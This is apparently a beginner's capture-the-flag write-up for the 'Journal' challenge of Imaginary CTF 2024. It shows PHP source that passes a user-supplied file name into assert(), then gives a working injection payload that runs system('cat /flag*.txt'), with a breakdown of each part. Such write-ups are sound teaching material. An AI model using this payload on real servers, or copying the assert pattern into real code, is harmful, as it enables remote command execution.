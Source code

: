 ```yaml
---
title: Journal - Imaginary CTF 2024
---
```



*This is my first ctf challenge writeup.*

# PHP Source Code

This was the source code of the php server. I do not know php I could not see the obvious vulnerability.


```php
<?php

echo "<p>Welcome to my journal app!</p>";
echo "<p><a href=/?file=file1.txt>file1.txt</a></p>";
echo "<p><a href=/?file=file2.txt>file2.txt</a></p>";
echo "<p><a href=/?file=file3.txt>file3.txt</a></p>";
echo "<p><a href=/?file=file4.txt>file4.txt</a></p>";
echo "<p><a href=/?file=file5.txt>file5.txt</a></p>";
echo "<p>";

if (isset($_GET['file'])) {
  $file = $_GET['file'];
  $filepath = './files/' . $file;

  assert("strpos('$file', '..') === false") or die("Invalid file!");

  if (file_exists($filepath)) {
    include($filepath);
  } else {
    echo 'File not found!';
  }
}

echo "</p>";
```

I intially tried accessing the flag without using `..`. On hacktricks I found few ways but none of them worked.

# The RCE

Then it clicked to me how assert is taking the code as a string and executing it and the file name is being passed to it.
Googling this, I found that hacktricks has [the same code as example](https://book.hacktricks.xyz/pentesting-web/file-inclusion#lfi-via-phps-assert) but their payload was not working for me. So I tried to make my own payload.

```php
', '1')or die(system('cat /flag*.txt'))or strpos('
```

# Break Down

- `', '1')` is to close the string and strpos function.
- `or die(system('cat /flag*.txt'))` is to execute the command and print the output. `or` is used because `strpos` returns false adn tehn `or` short circuits to execute the next command `die`.
- `or strpos('` is to prevent the (syntax iirc) error from being thrown by.

After the format string being filled the code inside the `assert` function looks like this:

```php
strpos('', '1')or die(system('cat /flag*.txt'))or strpos('e', '..') === false
```

**Thanks to the organizers for the challenge I really enjoyed the ctf, especially this challenges.**

